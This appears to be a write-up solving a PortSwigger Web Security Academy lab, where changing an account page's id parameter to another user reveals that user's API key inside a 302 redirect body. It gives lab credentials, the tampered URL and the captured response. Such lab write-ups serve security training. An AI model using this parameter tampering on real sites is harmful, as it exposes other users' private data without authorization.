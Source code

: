 # [Lab: User ID controlled by request parameter with data leakage in redirect](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect)

This lab contains an  [access control](https://portswigger.net/web-security/access-control)  vulnerability where sensitive information is leaked in the body of a redirect response.

To solve the lab, obtain the API key for the user  `carlos`  and submit it as the solution.

You can log in to your own account using the following credentials:  `wiener:peter`

## Analysis

login to `wiener` account:

```url
https://id.web-security-academy.net/my-account?id=wiener
```

change value of `id` parameter to `carlos`:

```url
https://id.web-security-academy.net/my-account?id=carlos
```

=> redirected to login page

## Solutions

check the http response in burpsuite, even though it's a 3xx http response, the body still contains the content:

```http
HTTP/1.1 302 Found
Location: /login
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Connection: close
Content-Length: 3395

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User ID controlled by request parameter with data leakage in redirect</title>
...
        <div id=account-content>
        <p>Your username is: carlos</p>
        <div>Your API Key is: sMctlBUitcILqisWH7l38Ami24XjlesY</div>    
```

submit carlos api key => solved.
